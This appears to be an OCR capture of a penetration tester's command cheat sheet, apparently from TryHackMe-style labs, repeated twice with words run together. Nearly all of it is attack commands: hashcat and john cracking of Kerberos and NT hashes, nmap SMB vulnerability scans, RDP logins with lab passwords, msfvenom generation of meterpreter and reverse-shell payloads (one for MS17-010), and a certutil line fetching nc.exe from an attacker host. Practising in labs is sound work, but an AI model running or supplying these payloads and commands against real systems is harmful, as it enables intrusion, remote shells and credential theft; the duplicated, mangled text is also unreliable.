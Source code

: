 ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────hashcat -m 18200 user3 ../../wordlist/Active-Directory-Wordlists/Pass.txthashcat -m 13100 -a 0 h2.txt ../../wordlist/Active-Directory-Wordlists/Pass.txtnmap -sV -sC -oA nmap 10.10.83.240sudo nmap -n -Pn -vv -O -sV --script smb-enum*,smb-ls,smb-mbenum,smb-os-discovery,smb-s*,smb-vuln* 10.10.123.16sudo nmap -n -Pn -vv -O -sV --script smb-enum*,smb-ls,smb-mbenum,smb-os-discovery,smb-s*,smb-vuln* 10.10.123.16nmap --script vuln -p 8000 10.10.53.194xfreerdp /u:wade /p:parzival /w:1366 /h:768 /v:10.10.60.13:3389xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:MACHINE_IP /u:Administrator /p:'TryH4ckM3!'sudo nmap -n -Pn -vv -O -sV --script smb-enum*,smb-ls,smb-mbenum,smb-os-discovery,smb-s*,smb-vuln* 10.10.243.191msfvenom -p windows/meterpreter/reverse_tcp lhost=10.9.239.155 -f msi -o setup.msijohn --format:NT hash.txt /usr/share/wordlists/rockyou.txtrdesktop -u user -p password321 10.10.184.18certutil -urlcache -f http://<IP>/nc.exe c:\Users\admin\Desktop\nc.exehashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
hashcat -m 18200 user3 ../../wordlist/Active-Directory-Wordlists/Pass.txt
hashcat -m 13100 -a 0 h2.txt ../../wordlist/Active-Directory-Wordlists/Pass.txt
nmap -sV -sC -oA nmap 10.10.83.240
sudo nmap -n -Pn -vv -O -sV --script smb-enum*,smb-ls,smb-mbenum,smb-os-discovery,smb-s*,smb-vuln* 10.10.123.16
sudo nmap -n -Pn -vv -O -sV --script smb-enum*,smb-ls,smb-mbenum,smb-os-discovery,smb-s*,smb-vuln* 10.10.123.16
nmap --script vuln -p 8000 10.10.53.194xfreerdp /u:wade /p:parzival /w:1366 /h:768 /v:10.10.60.13:3389
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:MACHINE_IP /u:Administrator /p:'TryH4ckM3!'
sudo nmap -n -Pn -vv -O -sV --script smb-enum*,smb-ls,smb-mbenum,smb-os-discovery,smb-s*,smb-vuln* 10.10.243.191
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.9.239.155 -f msi -o setup.msi
john --format:NT hash.txt /usr/share/wordlists/rockyou.txt
rdesktop -u user -p password321 10.10.184.18
certutil -urlcache -f http://<IP>/nc.exe c:\Users\admin\Desktop\nc.exe
hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt~                                                                

Saved as: ms17-010.exe

https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/
root@Kali:~/PTP/2.5_Exploitation/Lab 4# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.73 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
